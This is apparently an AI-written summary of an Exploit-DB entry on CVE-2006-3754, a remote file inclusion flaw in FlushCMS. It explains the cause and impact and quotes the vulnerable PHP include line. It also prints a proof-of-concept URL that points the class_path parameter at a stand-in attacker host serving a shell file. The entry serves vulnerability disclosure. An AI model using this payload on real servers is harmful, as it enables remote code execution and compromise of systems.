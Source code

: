 Based on the provided content, here's a breakdown of the vulnerability information related to CVE-2006-3754:

**Vulnerability Details**

*   **Root Cause:** The vulnerability is due to a flaw in `class.rich.php` within the FlushCMS application. Specifically, the `class_path` parameter in the URL is not properly sanitized, allowing an attacker to include remote files.
*   **Weakness/Vulnerability:**  Remote File Inclusion (RFI) vulnerability. This allows an attacker to execute arbitrary code on the server by including a malicious file from a remote location.
*   **Impact of Exploitation:** Successful exploitation allows an attacker to execute arbitrary code on the server, potentially leading to complete system compromise, data theft, or denial of service.
*   **Attack Vector:** The attack vector is through HTTP requests, where the attacker crafts a malicious URL with the `class_path` parameter pointing to a remote file containing malicious code.
*   **Required Attacker Capabilities/Position:** The attacker needs to be able to send HTTP requests to the vulnerable FlushCMS server. The attacker does not need any prior authentication.

**Technical Details:**

The vulnerable code snippet is identified as:

```php
//language class
require_once($class_path.'rich_files/lang/class.rich_lang.php');
```

The exploit example demonstrates how the `class_path` parameter can be manipulated:

```
http://www.site.com/flushcmd/Include/editor/rich_files/class.rich.php?class_path=http://www.shell.com/shell.txt?
```

In this example, `http://www.shell.com/shell.txt` represents a remotely hosted file containing malicious code that an attacker would like to execute.

**Additional Notes:**

*   This information comes from Exploit-DB, which lists this vulnerability with EDB-ID 2018, CVE-2006-3754, and CVE-2006-3755. Note that CVE-2006-3755 is likely a related vulnerability, but the information provided in this content focuses on the remote file inclusion vulnerability.

The provided content gives more technical details than the standard CVE description which is a placeholder here.
